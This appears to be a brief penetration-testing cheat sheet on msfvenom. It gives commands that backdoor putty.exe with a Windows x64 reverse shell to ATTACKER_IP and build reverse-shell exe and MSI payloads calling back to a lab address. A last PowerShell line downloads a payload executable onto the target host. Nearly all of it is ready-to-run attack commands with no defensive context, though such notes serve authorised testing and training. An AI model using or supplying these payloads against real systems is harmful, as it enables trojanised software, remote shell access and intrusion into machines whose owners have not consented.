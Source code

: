 Using MSFVenom

tags: #msfvenom 

Backdoor an existing file like putty.exe
```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

Build an exe service to do a shell_reverse_tcp
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.54.106 LPORT=4450 -f exe -o revshell.exe
```

Build an msi package with msfvenom with a shell_reverse_tcp
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.54.106 LPORT=4445 -f msi -o myinstaller.msi
```

Powershell command to download the exe file to the host
```pwsh
invoke-webrequest -UseBasicParsing -Uri http://10.2.54.106:9000/downloads/rev-svc.exe -OutFile MService.exe
```

